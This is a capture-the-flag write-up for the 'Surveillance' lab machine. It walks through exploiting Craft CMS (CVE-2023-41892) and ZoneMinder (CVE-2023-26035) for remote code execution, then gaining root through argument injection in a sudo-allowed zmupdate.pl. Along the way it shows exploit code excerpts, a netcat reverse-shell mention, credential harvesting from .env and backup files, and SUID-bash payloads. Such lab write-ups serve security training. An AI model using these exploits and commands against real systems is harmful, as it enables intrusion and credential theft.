# Surveillance

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.39.121 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 22:13 EST
Nmap scan report for 10.129.39.121
Host is up (0.0081s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan as well:

```
$ nmap -p 80 -sC -sV --min-rate 3000 10.129.39.121                    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 22:14 EST
Nmap scan report for 10.129.39.121
Host is up (0.0062s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Added the domain to the `/etc/hosts` file.

### Web Enum -> CVE-2023-41892

The website was promoting a security solution provider:


Checking the page source, I found that this website used Craft CMS 4.4.14.



This version of Craft CMS was vulnerable to CVE-2023-41892.



There are a few PoCs publicly available:



Initial exploitation did not work:

```
$ python3 rce.py http://surveillance.htb/index.php
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ ls
$ id
```

When reading the exploit, it seems to proxy requests through local port 8080.

```python
def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})

# TRUNCATED
```

I opened a HTTP Server on port 8080, and it returned some errors when the exploit was run:

```
$ python3 -m http.server 8080                       
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
127.0.0.1 - - [09/Dec/2023 22:24:21] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:21] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
127.0.0.1 - - [09/Dec/2023 22:24:21] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:21] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
127.0.0.1 - - [09/Dec/2023 22:24:57] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:57] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
127.0.0.1 - - [09/Dec/2023 22:24:57] code 501, message Unsupported method ('POST')
127.0.0.1 - - [09/Dec/2023 22:24:57] "POST http://surveillance.htb/index.php HTTP/1.1" 501 -
```

It didn't make sense to have a proxy in the first place, so I removed that since I could not find a good explanation of why it was included (probably Burpsuite testing by the researcher). After removing that, the script still did not work. 

I troubleshooted this by printing contents of variables within the script (as you usually do...) and I found that the `upload_tmp_dir` variable was being incorrectly checked:

```
$ python3 rce.py http://surveillance.htb
[-] Get temporary folder and document root ...
<i>no value</i>

upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
tmpDir = "/tmp" if upload_tmp_dir == "no value" else upload_tmp_dir
print(upload_tmp_dir)
```

Seems that it was being updated wrongly, and the `if` condition wasn't checking the value properly since it was being set to `<i> no value </i>` instead of `no value`. After replacing that, the RCE worked.



Getting a reverse shell is easy from here using `nc mkfifo`.



## Privilege Escalation

### Basic Enum

There are 2 other users on the machine:

```
www-data@surveillance:/home$ ls -al
total 16
drwxr-xr-x  4 root       root       4096 Oct 17 11:20 .
drwxr-xr-x 18 root       root       4096 Nov  9 13:19 ..
drwxrwx---  3 matthew    matthew    4096 Nov  9 12:45 matthew
drwxr-x---  2 zoneminder zoneminder 4096 Nov  9 12:46 zoneminder
```

There is also a MySQL service available:

```
www-data@surveillance:~/html/craft/config$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      1025/nginx: worker  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1025/nginx: worker  
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

There was also a `.env` file to read:

```
www-data@surveillance:~/html/craft$ ls -la
total 320
drwxr-xr-x  8 www-data www-data   4096 Oct 21 18:32 .
drwxr-xr-x  3 root     root       4096 Oct 21 17:54 ..
-rw-r--r--  1 www-data www-data    836 Oct 21 18:32 .env
-rw-r--r--  1 www-data www-data    678 May 23  2023 .env.example.dev
-rw-r--r--  1 www-data www-data    688 May 23  2023 .env.example.production
-rw-r--r--  1 www-data www-data    684 May 23  2023 .env.example.staging
-rw-r--r--  1 www-data www-data     31 May 23  2023 .gitignore
-rw-r--r--  1 www-data www-data    529 May 23  2023 bootstrap.php
-rw-r--r--  1 www-data www-data    622 Jun 13 23:10 composer.json
-rw-r--r--  1 www-data www-data 261350 Jun 13 23:10 composer.lock
drwxr-xr-x  4 www-data www-data   4096 Oct 11 17:57 config
-rwxr-xr-x  1 www-data www-data    309 May 23  2023 craft
drwxrwxr-x  2 www-data www-data   4096 Oct 21 18:26 migrations
drwxr-xr-x  6 www-data www-data   4096 Oct 11 20:12 storage
drwxr-xr-x  3 www-data www-data   4096 Oct 17 15:24 templates
drwxr-xr-x 42 www-data www-data   4096 Jun 13 23:10 vendor
drwxr-xr-x  8 www-data www-data   4096 Dec 10 03:40 web

www-data@surveillance:~/html/craft$ cat .env
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```

I could access and enumerate the database via `mysql` using these credentials.

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| craftdb            |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [craftdb]> select * from users;
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | active | pending | locked | suspended | admin | username | fullName  | firstName | lastName | email                  | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |      1 |       0 |      0 |         0 |     1 | admin    | Matthew B | Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe | 2023-10-17 20:42:03 | NULL               | NULL                    |              NULL | 2023-10-17 20:38:18  | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2023-10-17 20:38:29    | 2023-10-11 17:57:16 | 2023-10-17 20:42:03 |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
```

These hashes could not be cracked though.

### User Creds

Within the `~/html/craft` directory, I checked for any configuration or backup files, and found one:

```
www-data@surveillance:~/html/craft$ ls *   
bootstrap.php  composer.json  composer.lock  craft

config:
app.php  general.php  htmlpurifier  license.key  project  routes.php

migrations:

storage:
backups  config-deltas  logs  runtime
<TRUNCATED>
```

The `storage` folder contained some interesting stuff:

```
www-data@surveillance:~/html/craft/storage/backups$ ls
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

When unzipped, it just contains an ASCII text backup for the database. When read, I found a hash for the user within it:

```
www-data@surveillance:~/html/craft/storage/backups$ cat surveillance--2023-10-17-202801--v4.4.14.sql
<TRUNCATED>
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
set autocommit=0;
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
commit;
<TRUNCATED>
```

This hash could be cracked using CrackStation:



Using this, I either use `su` or `ssh` to the `matthew` user:



### CVE-2023-26035 -> Zoneminder User

The `matthew` user had no `sudo` privileges or any interesting files, and I was wondering why there was a user was called `zoneminder`.  Turns out this was a surveillance software (which explains the box name).



Port 8080 was running the software, which I could find after port fowrarding with `chisel`.



I found the web directory via `locate`:

```
matthew@surveillance:/$ locate index.php
/usr/share/zoneminder/www/index.php
/usr/share/zoneminder/www/api/index.php
/usr/share/zoneminder/www/api/app/index.php
<TRUNCATED>
```

Searching online for recent ZoneMinder exploits returns CVE-2023-26035, an unauthenticated RCE exploit.



I didn't know where to find the version, so a simple `grep -R` for both `1.36` and `1.37` gives me a strong indication that this is vulnerable:

```
matthew@surveillance:/usr/share/zoneminder$ grep -R '1.36'
<TRUNCATED>
db/zm_create.sql:       Before 1.36.27 Users were able to abuse this functionality to create a denial of service by
db/zm_create.sql:INSERT INTO Config SET Id = 215, Name = 'ZM_DYN_CURR_VERSION', Value = '1.36.32', Type = 'string', DefaultValue = '1.36.32', Hint = 'string', Pattern = '(?^:^(.+)$)', Format = ' $1 ', Prompt = '
db/zm_create.sql:INSERT INTO Config SET Id = 216, Name = 'ZM_DYN_DB_VERSION', Value = '1.36.32', Type = 'string', DefaultValue = '1.36.32', Hint = 'string', Pattern = '(?^:^(.+)$)', Format = ' $1 ', Prompt = 'What the version of the database is, from zmupdate', Help = '', Category = 'dynamic', Readonly = '1', Requires = '';

matthew@surveillance:/usr/share/zoneminder$ grep -R '1.37'
www/ajax/status.php:      # Left for backwards compatability. Remove in 1.37
www/ajax/status.php:      # Left for backwards compatability. Remove in 1.37
```

When I read more about the exploit, it seems that the vulnerability lies within these 2 lines of code:

```php
$cmd = getZmuCommand($cmd.' -m '.$this->{'Id'}); 
$output = shell_exec($cmd); 
```

The machine had these two lines present:



This confirms that this instance is vulnerable. I could only find one PoC for this exploit, which requires the usage of `msfconsole`:



I dislike using Metasploit in general, so I read the exploit and did it manually. In the exploit, the `execute_command` function is quite simple:

```rb
def execute_command(cmd, _opts = {})
    command = Rex::Text.uri_encode(cmd)
    print_status('Sending payload')
    data = "view=snapshot&action=create&monitor_ids[0][Id]=;#{command}"
    data += "&__csrf_magic=#{@csrf_magic}" if @csrf_magic
    send_request_cgi(
    'uri' => normalize_uri(target_uri.path, 'index.php'),
    'method' => 'POST',
    'data' => data.to_s
    )
    print_good('Payload sent')
    end 
```

Basically visits `localhost:8080` and then sends a command to that specific directory with the `__csrf_magic` parameter, of which the latter can be found in `index.php`:



To confirm this, I just created a file on the machine with `echo rcecfm > /tmp/test`:



The above shows that I had RCE as `zoneminder`. To get a shell, I used `chmod+%2bs+/tmp/zone` on a copy of `bash`.



Afterwards, I could just drop my SSH key in `authorized_keys` for the `zoneminder` user to upgrade shells.

### Sudo Script Privilege -> Root

The `zoneminder` user had some `sudo` privileges:

```
zoneminder@surveillance:~$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

Seems that I can run a bunch of Perl scripts with whatever arguments I want. The problem was that there were many scripts, and each of them were quite long:

```
zmaudit.pl
zmcamtool.pl
zmcontrol.pl
zmdc.pl
zmfilter.pl
zmonvif-probe.pl
zmonvif-trigger.pl
zmpkg.pl
zmrecover.pl
zmstats.pl
zmsystemctl.pl
zmtelemetry.pl
zmtrack.pl
zmtrigger.pl
zmupdate.pl
zmvideo.pl
zmwatch.pl
zmx10.pl
```

The `sudo` privilege also allows me to specify any arguments, so I think looking for anything that takes user input and throws into a command is key. I was lazy to read each file, so I copied all the scripts to another directory, then checked for keywords like `cmd` or `command` within them. The `zmupdate.pl` file contained some interesting stuff:

```
zoneminder@surveillance:/tmp/check$ grep command *
<TRUNCATED>
zmupdate.pl:      my $command = 'mysqldump';
zmupdate.pl:        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
zmupdate.pl:        $command .= ' -u'.$dbUser;
zmupdate.pl:        $command .= ' -p\''.$dbPass.'\'' if $dbPass;
zmupdate.pl:          $command .= ' -S'.$portOrSocket;
zmupdate.pl:          $command .= ' -h'.$host.' -P'.$portOrSocket;
<TRUNCATED>
```

It contained this snippet:

```perl
if ( $response =~ /^[yY]$/ ) {
      my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ );
      my $command = 'mysqldump';
      if ($super) {
        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
      } elsif ($dbUser) {
        $command .= ' -u'.$dbUser;
        $command .= ' -p\''.$dbPass.'\'' if $dbPass;
      }
      if ( defined($portOrSocket) ) {
        if ( $portOrSocket =~ /^\// ) {
          $command .= ' -S'.$portOrSocket;
        } else {
          $command .= ' -h'.$host.' -P'.$portOrSocket;
        }
      } else {
        $command .= ' -h'.$host;
```

The function above is only executed if the `version` parameter is set. The script also accepts some user input, which looks exploitable:

```
zoneminder@surveillance:/tmp/check$ sudo /usr/bin/zmupdate.pl -h
Unknown option: h
Usage:
    zmupdate.pl -c,--check | -f,--freshen | -v<version>,--version=<version>
    [-u <dbuser> -p <dbpass>]

Options:
    -c, --check - Check for updated versions of ZoneMinder -f, --freshen -
    Freshen the configuration in the database. Equivalent of old zmconfig.pl
    -noi --migrate-events - Update database structures as per
    USE_DEEP_STORAGE setting. -v <version>, --version=<version> - Force
    upgrade to the current version from <version> -u <dbuser>,
    --user=<dbuser> - Alternate DB user with privileges to alter DB -p
    <dbpass>, --pass=<dbpass> - Password of alternate DB user with
    privileges to alter DB -s, --super - Use system maintenance account on
    debian based systems instead of unprivileged account -d <dir>,
    --dir=<dir> - Directory containing update files if not in default build
    location -interactive - interact with the user -nointeractive - do not
    interact with the user
```

There was no validation for the parameter entered, so I just made `bash` an SUID binary using sub-shells `$()`:



Getting `root` is easy from here:



Rooted!